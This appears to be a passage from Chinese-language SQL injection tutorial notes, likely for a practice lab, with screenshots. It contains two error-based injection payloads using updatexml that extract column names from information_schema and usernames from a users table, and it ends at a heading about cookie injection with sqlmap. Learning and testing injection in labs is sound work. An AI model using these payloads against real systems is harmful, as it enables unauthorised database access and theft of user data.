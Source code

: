 ![image-20240807193509318](../../../../repo/assets/19.SQL注入/image-20240807193509318.png)

##### 爆破字段名

```
uname=admin' and updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 0,1),0x7e),1)-- +
```

![image-20240807193558679](../../../../repo/assets/19.SQL注入/image-20240807193558679.png)

##### 爆破字段

```
uname=admin' and  updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +
```

![image-20240807193628070](../../../../repo/assets/19.SQL注入/image-20240807193628070.png)

### **四、Sqlmap** **完成** **cookie** **注入**

